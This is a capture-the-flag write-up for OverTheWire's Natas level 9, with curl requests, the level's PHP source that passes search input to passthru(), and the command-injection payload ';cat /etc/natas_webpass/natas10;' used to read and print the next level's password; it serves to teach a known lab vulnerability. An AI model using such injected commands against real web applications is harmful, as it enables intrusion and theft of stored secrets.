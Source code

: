 # Natas Level 8 -> 9

## 🧠 Goal

Find password to the next level

---

## 🔐 Credentials

- **Username:** `natas9`  
- **Host:** `natas9.natas.labs.overthewire.org`   
- **Port:** `80` (HTTP)  
- **Password:** `ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t` 

---

## 🖥️ Commands Used

```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t natas9.natas.labs.overthewire.org
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```
view source
```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t natas9.natas.labs.overthewire.org/index-source.html | html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2924  100  2924    0     0  12468      0 --:--:-- --:--:-- --:--:-- 12495
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/
css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-
ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/
wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></
script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "<censored>" };</
script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing:
 <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```
search for something
```bash
┌──(amro㉿amro)-[~]
└─$ curl -u natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t natas9.natas.labs.overthewire.org --data "needle=kk&submit=Search" |html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1208  100  1185  100    23   4973     96 --:--:-- --:--:-- --:--:--  5075
****** natas9 ******
Find words containing:[needle              ][Search]

Output:
bookkeeper
bookkeeper's
bookkeepers
bookkeeping
bookkeeping's
jackknife
jackknife's
jackknifed
jackknifes
jackknifing
jackknives
trekked
trekking
yakked
yakking
View sourcecode
```
```
┌──(amro㉿amro)-[~]
└─$ curl -u natas9:ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t natas9.natas.labs.overthewire.org --data "needle=;cat /etc/natas_webpass/natas10;&submit=Search" |html2text
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1110  100  1057  100    53   4353    218 --:--:-- --:--:-- --:--:--  4586
****** natas9 ******
Find words containing:[needle              ][Search]

Output:
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
View sourcecode

```
___

## 💡 Theory
The form is searching for words containing a certain substring.

Viewing the source (Ctrl+U or right-click → View Page Source) shows:

<form>
Find words containing: <input name=needle><input type=submit>
</form>
<pre>
<?php
passthru("grep -i $needle dictionary.txt");
?>
</pre>

🛠️ passthru() in PHP — What is it?

passthru() is a PHP function used to execute external programs (i.e. system shell commands) and display raw output directly to the browser.

🔥 passthru() is dangerous if user input is not sanitized. It's vulnerable to command injection.

Exploit the Vulnerability
You can inject additional commands into the input field.

Try:

; cat /etc/natas_webpass/natas10

Explanation:

; ends the grep command

cat /etc/natas_webpass/natas10 reads the next level's password

So the full command becomes:

	grep -i ; cat /etc/natas_webpass/natas10 dictionary.txt


```bash
;cat /etc/natas_webpass/natas10;
```
___

## 📤 Output
```bash
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```

